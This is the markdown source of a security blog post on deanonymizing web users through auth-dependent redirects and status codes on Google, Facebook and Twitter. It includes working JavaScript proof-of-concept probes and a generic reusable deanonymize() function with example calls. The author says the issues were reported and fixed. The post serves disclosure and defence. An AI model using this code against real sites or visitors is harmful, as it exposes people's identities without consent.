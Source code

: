 ```yaml
---
layout: post
title: Novel Techniques for User Deanonymization Attacks
---
```

_**TL;DR**: By abusing auth-based redirections and user-specific URIs on modern web applications, an attacker can easily identify and deanonymize any given predefined group of users across the web._

Frankly, this is not really the first time I write about this kind of issues; I first drew attention to this in a thread I initially posted on the [webappsec mailing list](http://www.webappsec.org/lists/websecurity) almost a year ago <a href="#1">[1]</a>, but for some reason, that didn't receive enough attention. Hopefully, the implications I'm going to demonstrate in this writeup would be sufficient for people to start taking the appropriate precautions against this kind of privacy threats out there!

Well, it all started with me logging into my Gmail account as usual, just to notice a redirection being made to a URI specified in a `GET` parameter named "___continue___" with my email address in a second `GET` parameter named "___email___". Here's our interesting endpoint:
{% highlight css linenos %}
https://accounts.google.com/AccountChooser?continue=<URI>&email=<email_address>
{% endhighlight %}
The fun starts when you tamper the value of that "___email___" param, as when you do that, you wouldn't get redirected to the URI specified in the "___continue___" param, but instead, you get redirected to a Gmail re-authentication page! While if you just tamper the value of the "___continue___" param, you still get redirected as long as it's a "[*.google.com](#)" endpoint and the "___email___" param does point to your own email address.

So far, so good. Now, the question is, how could an attacker maliciously exploit such behavior? "Deanonymization" is the word! Here's how:


First, we get the URI of any embeddable resource hosted on "[*.google.com](#)"; a small icon/image would typically do the job. Then we set that "___continue___" param to the URI of that resource, and we set the "___email___" param to the email address of a given target we want to deanonymize (say "`target@gmail.com`"). Like this:
{% highlight css linenos %}
https://accounts.google.com/AccountChooser?continue=https://www.google.com/images/errors/robot.png&email=target@gmail.com
{% endhighlight %}
Now, we have an endpoint that points to an image resource when the email address of the current Gmail user is "`target@gmail.com`" but points to a webpage otherwise! Cool, here's a sweet exploit:
{% highlight javascript linenos %}
(function (email) {
    var endpoint = 'https://accounts.google.com/AccountChooser?continue=https://www.google.com/images/errors/robot.png&email=';
    var img = new Image();
    img.src = endpoint + email;
    window.onload = function() {
        if (img.height === 213 && img.width === 171) {
            alert('Deanonymized successfully!');
        }
    };
    document.documentElement.appendChild(img);
}('target@gmail.com'));
{% endhighlight %}
Note that I had reported this issue to the Google security team, and it has been fixed a long time ago. ...end of story? Not so fast!

They initially pushed a short-term fix by implementing a regex-based blacklist (on top of their permissive whilelist), where they don't generally allow redirections to any endpoint that ends with a file extension such as "`.jpg`", "`.js`", "`.ico`", et al! Which basically means, if you can find an open redirect on "[*.google.com](#)" or even some endpoint that points to an embeddable resource but doesn't end with a file extension, you still have a working exploit! Great, but what if you are just not lucky enough to find something like that? Oh, no worries, the fun never ends:

Well, we know that as long as it's a valid "[*.google.com](#)" endpoint, a redirection shall happen; all we need here is another distinctive behavior that depends on something else other than embeddable resources. What possibly could that be? Oh, HTTP status codes come to the rescue! Here it goes:

What happens if we simply use an endpoint that points to a non-existent resource? Obviously, we get redirected to an error page, and an error page typically returns a "`404 Not Found`" status code. Yet another sweet exploit:
{% highlight javascript linenos %}
(function (email) {
    var endpoint = 'https://accounts.google.com/AccountChooser?continue=https://www.google.com/404&email=';
    var script = document.createElement('script');
    script.src = endpoint + email;
    script.onerror = function() {
        alert('Deanonymized successfully!');
    };
    document.documentElement.appendChild(script);
}('target@gmail.com'));
{% endhighlight %}
Oops! ...works like a charm (as of now, they fixed this by disallowing redirections on `GET` requests altogether) but with one little problem, Google makes use of the "`X-Content-Type-Options: nosniff`" header which tells a browser not to do content type sniffing, disallowing embedding resources that don't return the right MIME type. Luckily, Firefox [doesn't seem to respect that header](https://bugzilla.mozilla.org/show_bug.cgi?id=471020) while working with script elements, but Chrome does respect it! Well, not exactly! It turns out that Chrome doesn't respect it while working with external stylesheets and proceeds to interpret the resource anyway:
<br /><a href="/images/ChConsole.png" target="_blank"><img class="innerImg" src="/images/ChConsole-thumb.png" alt="Chrome console"></a><br />
So, all we have to do is use a link element instead of a script element when running on Chrome. Fair enough, here's one single generic exploit that combines all of these tricks together to deanonymize whoever you want, on whichever browser he uses, against whatever webapp you please:

<div class="long-snippet">
{% highlight javascript linenos %}
/**
 * Deanonymize a predefined group of users, given sufficient arguments.
 * @param attackMethod {string}, the method of the attack (either 'redirection' or 'statusCode').
 * @param endpoint {string}, the vulnerable endpoint with the user ID parameter last.
 * @param idList {array}, a list of the targeted users' IDs.
 * @param callback {function}, a callback function to pass all results to.
 * @return {array}, an ordered output array with boolean values.
 */
function deanonymize(attackMethod, endpoint, idList, callback) {
    var elNodes, testFn;
    var output = [];
    // Register a new cross-browser event listener.
    var addListener = (function() {
        return (window.addEventListener) ? window.addEventListener :
            // For IE8 and earlier versions support.
            function (evName, callback) {
                this.attachEvent('on' + evName, callback);
            };
    }());
    /**
     * Create new DOM elements.
     * @param tagName {string}, elements' tag name.
     * @return {array}, an array of DOM nodes.
     */
    var createElements = function(tagName) {
        var i, l, el;
        var elNodes = [];
        for (i = 0, l = idList.length; i < l; i++) {
            el = document.createElement(tagName);
            if (tagName !== 'link') {
                el.src = endpoint + idList[i];
            } else {
                el.href = endpoint + idList[i];
                el.rel = 'stylesheet';
            }
            if (tagName !== 'img') {
                el.onerror = function() {
                    this.parentElement.removeChild(this);
                };
            }
            elNodes.push(el);
            document.documentElement.appendChild(el);
        }
        return elNodes;
    };
    /**
     * Conduct tests in regard to a given function.
     * @param testFn {function}, a test function.
     * @return void.
     */
    var assess = function(testFn) {
        var i, l;
        for (i = 0, l = elNodes.length; i < l; i++) {
            if (testFn(elNodes[i])) {
                output.push(true);
            } else {
                output.push(false);
            }
        }
        callback(output);
    };
    if (attackMethod === 'redirection') {
        elNodes = createElements('img');
        /**
         * Test if an image node was loaded or not.
         * @param imageNode {object}, a DOM image node.
         * @return {boolean}.
         */
        testFn = function(imgNode) {
            if (imgNode.naturalHeight !== 0 && imgNode.naturalWidth !== 0) {
                return true;
            }
            return false;
        };
    } else if(attackMethod === 'statusCode') {
        elNodes = (/chrome/i.test(navigator.userAgent)) ? createElements('link') :
                           createElements('script');
        /**
         * Test if a given element is a child of `documentElement` or not.
         * @param el {object}, a DOM element.
         * @return {boolean}.
         */
        testFn = function(el) {
            if (el.parentNode !== document.documentElement) {
                return true;
            }
            return false;
        };
    }
    addListener.call(window, 'load', function() { assess(testFn); });
}
{% endhighlight %}
</div>

The story doesn't end here either, these issues are too widespread than you can imagine! I'm talking about Facebook, Twitter and the list goes on! Here's a couple of variations, just to mention a few:

As for Facebook, you could have simply deanonymized a bunch of users based on their profile IDs (using the generic exploit above) by doing something like:
{% highlight javascript linenos %}
deanonymize('statusCode', 'https://www.facebook.com/feed/export/service_redirect.php?service=1&id=', [10001, 10003], alert);
{% endhighlight %}
Now, if any of the users whose profile ID is one of these (10001, 10003) visits our website, he'll get immediately deanonymized! (of course that's fixed now.)

And as for Twitter, you could do it using the ID of any tweet(s) that belongs to your target(s). Like this:
{% highlight javascript linenos %}
deanonymize('statusCode', 'https://twitter.com/intent/retweet?tweet_id=', [10001, 10003], alert);
{% endhighlight %}
But why a tweet ID in particular? That's because I couldn't find any vulnerable user-specific endpoints there! So, alternatively, we exploit the fact that a twitter user cannot retweet his own tweets (also fixed)!

# Conclusion:
The modern web continues to prove itself as a very compromised zone; from timing attacks to nasty techniques like that, your identity and your data are, one way or another, prone to be exposed anytime as you navigate on. Do NOT browse while being authenticated to other web applications (or use <a href="https://www.requestpolicy.com" target="_blank">RequestPolicy</a> if possible). Do NOT allow scripts on untrusted websites (<a href="https://noscript.net">NoScript</a> is always a good idea; [AnonTab](/projects/#AnonTab) too!).

# References:
<a name="1" style="color: black">[1]: </a><a href="https://lists.w3.org/Archives/Public/public-webappsec/2015May/0043.html" target="_blank">https://lists.w3.org/Archives/Public/public-webappsec/2015May/0043.html</a><br />
[2]: <a href="https://hackerone.com/reports/44814" taget="_blank">https://hackerone.com/reports/44814</a>
